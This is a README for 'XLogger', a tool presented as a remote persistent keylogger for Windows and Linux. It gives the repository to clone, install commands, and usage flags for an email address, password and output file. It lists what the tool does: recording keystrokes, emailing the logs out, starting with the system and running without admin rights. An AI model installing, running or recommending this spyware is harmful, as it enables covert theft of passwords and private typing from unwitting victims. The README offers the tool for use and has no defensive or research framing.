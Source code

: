 # XLogger
Remote persistent keylogger for Windows and Linux.


## Commands :

### Download
git clone https://github.com/XPR1M3/XLogger.git

### Installation
chmod +x install.sh

./install.sh

### Usage
python xlogger.py

#### For Windows
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]

#### For Linux 
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]


### Features:

-Logs keys pressed on keyboard.
-Sends reports by email.
-Starts with system startup.
-Works with Linux and Windows.
-Does not require root or admin privileges.


